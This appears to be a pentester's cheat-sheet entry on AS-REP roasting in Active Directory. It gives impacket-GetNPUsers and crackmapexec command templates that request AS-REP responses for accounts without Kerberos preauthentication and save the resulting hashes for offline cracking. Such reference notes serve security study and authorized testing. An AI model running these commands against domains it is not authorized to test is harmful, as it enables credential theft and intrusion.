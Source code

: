 # AS-REP Roasting
If a domain user does not have Kerberos preauthentication 'DONT_REQ_PREAUTH' enabled, an AS-REP can be successfully requested for the user. Getting a TGT.
`impacket-GetNPUsers '<DOMAIN>/' -dc-ip <IP> -usersfile <USERLIST> -no-pass` (Users from file)
`impacket-GetNPUsers '<DOMAIN>/<USRE>:<PASS>' -request -outputfile HASH` (All from domain)
`crackmapexec ldap <IP> -u '<USER>' -p '<PASS>' --asreproast <OUTPUT.TXT>`

Check output & dc-ip & request